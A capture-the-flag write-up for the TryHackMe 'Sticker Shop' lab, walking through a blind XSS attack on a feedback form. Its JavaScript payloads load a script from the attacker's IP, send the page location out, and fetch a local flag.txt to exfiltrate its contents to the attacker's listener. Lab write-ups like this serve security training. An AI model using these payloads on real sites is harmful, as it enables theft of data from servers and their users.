

# The Sticker Shop

[https://tryhackme.com/r/room/thestickershop](https://tryhackme.com/r/room/thestickershop)

## Web App

Since we need to read the `flag.txt` file lets test some functions of the webpage



The usual 401/403 bypass techniques didn’t work so we have to make the `localhost` read the content of `flag.txt` and send to us

### Submit Feedback

Since we have this input page its a good ideia to try to receive the connection of the server using a XSS payload such as `<script src='http://10.9.4.16/'><script>`

First open a python webserver

`sudo python3 -m http.server 08`

Now use that XSS payload using your own IP Address


After submitting you should receive this connections meaning that its working


Let’s make a payload that will return to use the url that it access our payload

```javascript
<script>
  fetch('http://10.9.4.16/?data=' + btoa(window.location))
    .catch(err => console.log('Error:', err));
</script>
```

Here is the response with the decoded value, meaning that the webapp is locally stored at `http://127.0.0.1:8080`


I created this payload that will make a the webserver to request the `flag.txt` file and retrieve to use inside the parameter `data`

```javascript
<script>
fetch('http://127.0.0.1:8080/flag.txt')
  .then(response => response.text())
  .then(data => {
    fetch('http://10.9.4.16/?data=' + encodeURIComponent(data))
  })
</script>
```

Here we can see the flag, note that its URL enconded


